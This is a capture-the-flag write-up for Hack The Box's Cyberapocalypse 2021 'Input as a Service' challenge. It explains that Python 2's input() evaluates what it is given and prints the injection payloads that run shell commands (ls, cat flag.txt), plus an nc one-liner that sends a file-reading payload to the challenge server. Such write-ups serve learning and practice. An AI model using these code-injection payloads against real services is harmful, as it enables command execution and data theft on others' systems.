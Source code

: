 ```yaml
---
slug: input-as-a-service-cyberapocalypse-2021-ctf
title: Input as a Service - Cyberapocalypse 2021 CTF
description: This is a writeup for the Input as a Service challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Misc.
authors: kiroki
tags: [Cyber Security, CTF]
---
```


This is a writeup for the Input as a Service challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Misc.

### Prompt

In order to blend with the extraterrestrials, we need to talk and sound like them. Try some phrases in order to check if you can make them believe you are one of them.

<!-- truncate -->

### Recon

We can netcat to a service at some address given to us. Upon doing so, we are prompted by the question _"Do you sound like an alien?"_, followed by what looks like a python prompt

```
Do you sound like an alien?
>>>
```

If we supply it something random, it will spit out a python error trace.

```
Do you sound like an alien?
>>> lolwut


Traceback (most recent call last):
  File "input_as_a_service.py", line 16, in <module>
    main()
  File "input_as_a_service.py", line 12, in main
    text = input(' ')
  File "<string>", line 1, in <module>
NameError: name 'lolwut' is not defined
```

### Analysis

We see in the traceback, that we're supplying info to an `input` function inside of python2.x. This method has a well known vulnerability, which is that it tries to run the value of `input()` as code.

We can easily make use of that, and see if we can't invoke the `os` module of python, and maybe do some filesystem recon. We can do that by sending the following line into the input

```python
__import__("os").system("ls")
```

And we will see, that one of the files is indeed `flag.txt`.

### Solution

We can go as complicated as we like, but the most straightforward way to solve this particular challenge, is to invoke the `os` module of python, and try to run `cat` on the file we found `flag.txt`.

```python
[GCC 9.3.0]
Do you sound like an alien?
>>>

 __import__('os').system('cat flag.txt')
CHTB{4li3n5_us3_pyth0n2.X?!}
0
```

And so, we get the flag

```
CHTB{4li3n5_us3_pyth0n2.X?!}
```

I'll throw the following line here as well, for reference

```python
echo 'int(().__class__.__base__.__subclasses__()[40]("flag.txt","r").read())' | nc 188.166.145.178 31960 | grep -o CHTB{.*} --color=none
```

import DonateCard from '@site/src/components/DonateCard';

<DonateCard/>